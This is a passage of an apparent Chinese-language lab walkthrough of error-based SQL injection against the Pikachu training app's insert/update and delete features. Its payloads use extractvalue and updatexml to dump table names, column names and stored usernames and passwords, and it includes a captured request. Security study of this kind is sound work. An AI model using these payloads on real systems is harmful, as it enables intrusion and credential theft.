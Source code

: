 ![pikachu44](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu44.png)

## "insert/update"注入

username字段可以注入，字符型单引号`'`

这里选username字段，利用extractvalue函数报错注入

查表名

```sql
username=' or extractvalue(1, concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) or '
```

查数据库版本、users表下的字段名（查其他表对应替换table_name）

```sql
username=' or extractvalue(1, concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e)) or '
```

![pikachu45](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu45.png)

查users表下的数据

```sql
username=' or extractvalue(1, concat(0x7e,(select group_concat(username,":",password) from users limit 0,1),0x7e)) or '
```

## "delete"注入

点击删除留言时数据包的id字段可注入，数字型，数据包如下

```http
GET /vul/sqli/sqli_del.php?id=56 HTTP/1.1
Host: 172.26.239.122
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.26.239.122/vul/sqli/sqli_del.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=u19vivvv2j26lqb3622ebur90r
Connection: close
```

这次用updataxml函数来报错注入

查表名

```sql
id=56 and updatexml(1,concat(0x7e,@@version,0x7e),1)
```
